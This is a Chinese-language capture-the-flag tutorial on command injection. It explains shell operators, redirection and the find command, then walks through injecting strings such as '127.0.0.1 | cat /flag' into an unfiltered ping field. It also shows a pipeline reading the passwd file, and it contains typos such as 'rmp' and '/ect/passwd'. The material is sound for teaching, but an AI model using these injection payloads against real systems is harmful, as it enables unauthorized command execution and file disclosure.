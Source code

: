 # 命令执行

## 管道符

### “;”分号的使用

方式：command1;command2

用分号隔开每条命令，并且从左到右的顺序执行命令，彼此之间相互独立，互不干涉。


### “|”管道符使用

上一条命令的输出，作为下一条命令的输入，在ctf中：ping 127.0.0.1 | ls (只会执行ls不会执行ping命令）

方式：command1 | command2

#### 实例
利用一个管道
```
rmp -qa | grep licq //将rmp -qa输出的结果通过管道输送给grep命令
```
rmp -qa是输出系统中所有安装的RPM包，grep licp是查找有licp字符的RPM包
grep命令是查找文件里满足条件的字符串

利用多条管道
```
cat /ect/passwd | grep /bin/bash | wc -l //将第一个管道的输出（passwd的内容）通过管道输送给第二个管道，将第二管道的输出（passwd内容里有/bin/bash的所有行）通过管道输送给第三个管道，第三个管道通过wc命令统计出输入的行数，并输出
```
wc命令是统计出输入的行数

### “&”符号的用法，在ctf中：ping 127.0.0.1 & ls（先输出ls，再执行ping命令）

方式：command 1&

默认情况下，进程是前台进程，这样会占用shell，无法执行其它进程，所以有些没有的进程都希望可以放在后台，所以此时我们在后台的参数后面加上“&”实现这个目的

### “&&”符号和“||”符号

“&&”和“||”符号满足短路原则。“&&”符号，如果左边为假，则不执行右边，反之，执行右边。而“||”符号，如果左边为真，则不执行右边，反之，执行右边

“&&”格式：command 1 && command 2
“||”格式：command 1 || command 2

#### 实例
判断主机存活
```
ping -c 1 -w 1 192.168.1.1 &> /dev/null && result=0 || result=1
```
重定向：>和>>是输出重定向，>是覆盖文件中的原有文件，文件存在，则删除文件并新建文件，并输入数据内容
                                              >>是在原有文件里的内容后面添加，没有文件则创建文件，并添加内容
             <是输入重定向
             &>是命令的标准正确输出或标准错误输出直接输出到你重定向的文件中

### linux下的find命令

.表示当前用户下的目录，/表示系统的根目录

find / -name filename //查找系统目录下的filename文件

find命令的详细讲解：https://www.cnblogs.com/yorkyang/p/6294894.html


### 实例
先构造
```
127.0.0.1;ls;
```
可以看到index.php文件

然后构造
```
127.0.0.1 | cat /index.php
```
发现一串php代码，通过审计代码发现没有任何过滤

因此构造
```
127.0.0.1 | find / -name flag
```

可以看到flag在/flag里

所以构造
```
127.0.0.1 | cat /flag
```




